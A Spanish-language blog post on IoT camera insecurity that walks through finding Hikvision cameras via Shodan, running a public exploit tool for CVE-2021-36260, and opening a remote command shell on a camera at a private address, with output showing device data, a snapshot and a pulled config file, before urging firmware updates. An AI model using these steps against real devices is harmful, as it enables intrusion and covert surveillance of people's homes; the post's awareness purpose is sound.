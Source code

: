 ```yaml
---
title: Firmware updates
date: 2025-07-30 11:00:00 +0200
categories: [ciberseguridad, redes]
tags: [camaras, shodan, hacking, firmware, iot]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/8/88/Firmware_update_Fuji_Instax_Liplay.jpg/500px-Firmware_update_Fuji_Instax_Liplay.jpg1024px-Surface_Web_%26_Deep_Web.jpg
    alt: firmware update
---
```


## Ciberseguridad de IoT
Quiero dejar evidencia de lo sencillo que puede resultarle a actores maliciosos, obtener información de dispositivos IoT o hackerlos. Estos dispositivos, cámaras, sensores, aspiradoras, neveras, routers, etc, etc y cada vez hay más claro que no todos se conectan a Internet, sino "solamente a la red interna", esto en la mayoría de casos es cierto, pero poco a poco iremos "abriendo más puertos" para tener acceso a estos dispositivos desde Internet o dicho de otra forma, les daremos acceso a "la red" y no los tendremos tan aislados porque nos proporcionan "bienestar". Por ejemplo las cámaras de videovigilancia cada vez son más comunes y que en cierta forma proporcionan seguridad, a su vez el poder usar "la red" para tener acceso a ellas mejora la observabilidad, y retroalimenta la seguridad. 

## Exploits  
Los actores maliciosos buscan vulnerabilidades para por ejemplo crear una botnet con dispositivos IoT. Cuando encuentran una como esta ya sea investigando ellos mismos o por por terceros, pasan a la siguiente fase. ```CVE-2021-36260``` 

## Dorking y sondas
Ahora que los actores maliciosos conocen las vulnerabilidades, lo que necesitan es encontrar objetivos a los que aplicar las técnicas necesarias para ganar acceso, privilegios y control sobre los mismos. 

Hay varias formas de encontrar estos dispositivos, puedes hacerlo con un script que haga un request aletoriamente por IPs para comprobar si ese puerto es una cam o una marca en concreto, lo que se llama escrapeo, con herramientas escáneres como Zmap capaces de escanear Internet entero en pocos minutos. También puedes usar la opción más dependiente que es usar una API de terceros como [https://www.shodan.io](https://www.shodan.io/), que es la que usé para testear. Otras formulas de búsqueda por supuesto. 

![shodan.io](https://upload.wikimedia.org/wikipedia/en/3/38/Shodan_%28website%29_logo.png)

Ahora en el buscador de Shodan introducimos simplemente ```3.1.3.150324``` esta sería la versión de la web vulnerable que nos indican en el exploit, si bien puede que afecte a más productos y por lo tanto a otras versiones de la web. Esto solo es el filtro que hemos aplicado a Shodan.io para el resultado de su motor. Aplicando otros filtros es posible que obtengamos más resultados. 

### Preparación 
``` shell
git clone https://github.com/tamim1089/HikvisionExploiter
python -m venv .
source bin/activate
pip install -r requirements.txt
nano targets.txt #introduces los targets ip:puerto
```

## Explotación

``` shell
python checker.py
=======================================================
Target: 192.168.2.221:81
=======================================================

[+] Directory accessible: http://192.168.2.221:81/onvif-http/snapshot?auth=YWRtaW46MTEK

[+] Device Info
    deviceName: IP CAMERA
    deviceID: 88
    deviceDescription: IPCamera
    deviceLocation: Lugo
    systemContact: Hikvision.China
    model: DS-2CD3T20D-I3
    serialNumber: DS-*********
    macAddress: c4:********
    firmwareVersion: V5.3.1
    firmwareReleasedDate: build 150401
    bootVersion: V1.3.4
    bootReleasedDate: 100316
    hardwareVersion: 0x0

[+] Users
    admin: Administrator
[+] Snapshot saved: logs/192.168.2.221:81_20250730_124156/20250730_124156.jpg

-- CVE-2021-36260 (RCE Command Injection Check) --
    RCE confirmed! Device is VULNERABLE!!!
    Run this to get a shell: chmod +x shell.sh && ./shell.sh 192.168.2.221:81

```

RCE shell, el proyecto viene acompañado de una utilidad para interactuar con el dispositivo a través de Curl 

```shell
(HikvisionExploiter) ┌──(pablo☠office)
└─$ ./shell.sh 192.168.2.221:81
[+] Target 192.168.2.221:81 appears vulnerable!
Connected to Hikvision target: 192.168.2.221:81
Type commands to execute remotely. Ctrl+C to exit.
hikvision-shell> ls
applib
certs
initrun.sh
pidfile
process
r2_isp_config
sound
webLib
```
Si el dispositivo es vulnerable además se generará un carpeta en el directorio logs intentará checkear si el dispostivo es  vulnerable a obtener una shell y además sacará una fotograma de la webcam y una copia del config_enc.bin el proyecto dice que intentará descifrarlo pero no he visot que lo haga, se quedará en un intento. 

``` shell
├── 192.168.2.221:81_20250730_124156
│   ├── 20250730_124156.jpg
│   └── config_enc.bin
```

## Firmware updates

Tengo un artículo explicando 14 puntos a tener en cuenta a la hora de securizar un router, en el se habla también de las actualizaciones y del miedo que se tiene a parchear, actualizar, etc este tipo de dispositivos. Solo intenta evaluar lo siguiente: Romper/brikear un dispositivo es algo técnico y puede que cueste dinero y tiempo, que te espíen en tu propia casa es algo personal. 

![webcam guitarrist](https://upload.wikimedia.org/wikipedia/commons/6/69/1975_Alvarez_guitar_%282010-10-18_03.14.15_by_fenderfish%29.jpg)

El de la foto no soy yo, pero ejemplifica la situación. 